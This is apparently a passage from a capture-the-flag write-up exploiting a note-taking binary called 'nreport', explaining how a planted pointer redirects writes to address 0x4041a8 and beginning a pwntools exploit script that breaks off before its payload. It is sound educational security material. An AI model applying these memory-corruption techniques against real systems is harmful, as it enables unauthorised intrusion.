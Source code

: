     
    
      printf("Enter Name: ");
      __isoc99_scanf(" %39[^\n]",userinfo1);
    

I’ll send “0xdf”, some nulls to end the string and to get to an eight-byte
divisible address, and then the address of the command. Then this area of
memory will look like:

![image-20220728185011483](https://0xdfimages.gitlab.io/img/image-20220728185011483.png)

Then when I edit I’ll select note 13, which will check for buffer addresses in
at 13 x 8 = 0x68 bytes after `message_array`:

![image-20220728185011483](https://0xdfimages.gitlab.io/img/image-20220728185011483-arrows.png)

By putting that pointer in, now it will write the title to 0x4041a8, and the
message 60 bytes later at 0x4041e4. This means some data in `userinfo1` will
be overwritten with the message, but that’s most likely fine (worth noting in
case things crash before I get the chance to exit).

#### Exploit

Putting this all together, I’ll start a Python script using
[PwnTools](https://github.com/Gallopsled/pwntools). [This
video](https://www.youtube.com/watch?v=CAIWF9HzfAc) goes over the binary and
some of the analysis above, and then shows the process for developing the
script (if you want to start at the script development, jump to
[18:36](https://youtu.be/CAIWF9HzfAc?t=1116)):

The final script is:

    
    
    #!/usr/bin/env python3
    
    from pwn import *
    
    
    def create(title, msg):
        p.sendline(b"1")
        p.sendline(title.encode())
        p.sendline(msg.encode())
    
    
    def edit(num, title, msg):
        p.sendline(b"3")
        p.sendline(str(num).encode())
        p.sendline(title.encode())
        p.sendline(msg.encode())
    
    
    if args["REMOTE"]:
        p = remote("127.0.0.1", 9851)
    else:
        p = process("./nreport")
    
    command_addr = 0x4041A8
    